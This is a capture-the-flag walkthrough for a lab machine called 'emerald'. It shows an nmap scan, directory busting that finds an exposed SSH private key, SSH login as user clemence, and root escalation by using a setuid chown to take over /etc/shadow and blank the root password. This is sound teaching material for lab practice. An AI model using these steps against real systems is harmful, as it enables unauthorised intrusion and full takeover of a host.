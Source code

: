# 🖥 Walkthrough | emerald

## 1. Reconnaissance

An `nmap` scan reveals the following exposed services:

```bash
# nmap -A -p- 192.168.60.4
[..]
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 44:93:bd:32:c1:fe:6b:8f:8a:30:5f:c9:ea:21:44:5f (RSA)
|   256 d4:32:2c:4f:31:4d:42:46:e9:82:41:ca:87:2d:ff:00 (ECDSA)
|_  256 d2:f9:90:26:44:fd:34:2e:97:19:6e:d9:f0:1c:dc:64 (ED25519)
8080/tcp open  http    nginx 1.18.0
|_http-title: About Me
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.18.0
[..]
```

The output suggests that there is an SSH server on port 22 and a nginx web server on port 8080. The nginx website appears to only contain static contents:

![website](img/01.png)

One part of reconnaissance is to check for hidden contents. This includes web directories which are not listed publicly, i.e. they need to be discovered. This process is called directory busting.

In this step, we use the tool `dirb` for directory busting. We need to provide an URL as well as a *wordlist* (a text file containing words that will be checked as directory or file names).

```bash
# dirb http://192.168.60.4:8080/ /usr/share/wordlists/dirb/big.txt -r

[..]                                                        
---- Scanning URL: http://192.168.60.4:8080/ ----
==> DIRECTORY: http://192.168.60.4:8080/assets/
==> DIRECTORY: http://192.168.60.4:8080/drive/
[..]
```

The output above shows that there appear to be two directories: `assets` and `drive`. Opening the `drive` directory in a web browser shows some interesting files:

![directory-listing](img/02.png)

The files `id_rsa` and `id_rsa.pub` appear to be an RSA key pair. Possibly for SSH?

## 2. SSH access

The `id_rsa.pub` file contains the string `clemence@emerald`. So it might be worth trying to log in as user `clemence` via SSH. After downloading the private key `id_rsa`, we can issue the following command to establish an SSH session:

```bash
ssh -i id_rsa clemence@192.168.60.4 
```

After confirming the fingerprint, we are successfully logged in as `clemence` and can retrieve the first token:

```bash
clemence@emerald:~$ cat token
This one's for you: EMERALD{d1r3ct0ry_bust1ng_g03s_brrrrr}
```

## 3. Privilege escalation

One way to elevate privileges are so-called `setuid` binaries. When a binary with the `setuid` flag is executed, it runs as its respective owner and not as the user who executed it. Some files like `sudo`, `su` or `passwd` require this flag to work properly.

The following find command scans for files with the `setuid` flag:

```bash
clemence@emerald:~$ find / -type f -perm -4000 2>/dev/null
/usr/bin/chown
/usr/bin/passwd
/usr/bin/su
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/umount
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

What is unusual is that the `chown` executable has the `setuid` bit set. Since it is owned by root, we can use it to change the ownership of arbitrary files and folders:

```bash
clemence@emerald:~$ ls -al /usr/bin/chown
-rwsr-xr-x 1 root root 72672 Sep 24  2020 /usr/bin/chown
```

There are different ways to get root access. Our approach is the following:

1. Change ownership of `/etc/shadow` so that we can write to it:
   ```
   clemence@emerald:~$ chown clemence /etc/shadow
   ```
2. Edit `/etc/shadow` in an editor of our choice and set the root password to an empty string. To do this, change the first line to:
   ```
   root::0:[...]
   ```
3. Switch to the root user and read the second token:
   ```
   clemence@emerald:~$ su root
   root@emerald:/home/clemence# id
   uid=0(root) gid=0(root) groups=0(root)
   root@emerald:/home/clemence# cat /root/token
   Here's a little secret for you: EMERALD{setu1d_0n_wr0ng_b1n4ries_is_b4d}
   ```

And that's it. We're done!
